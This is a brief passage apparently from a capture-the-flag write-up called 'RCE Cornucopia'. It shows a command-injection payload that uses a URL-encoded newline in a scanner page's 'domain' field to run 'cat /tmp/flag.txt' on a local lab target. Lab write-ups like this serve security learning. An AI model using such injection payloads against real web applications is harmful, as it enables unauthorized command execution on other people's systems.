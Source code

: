I could not figure out how to make it happen with Nmap flags.

A totally different idea - maybe chaining commands isn't dead. Newline?

```
http://127.0.0.1:8084/index.php?domain=google.com%0Acat%20/tmp/flag.txt&submit=Scan
```

Yep.

![RCE Cornucopia](/img/rce-cornucopia/rce4-003.png)

# Challenge 5

![RCE Cornucopia](/img/rce-cornucopia/rce5-000.png)
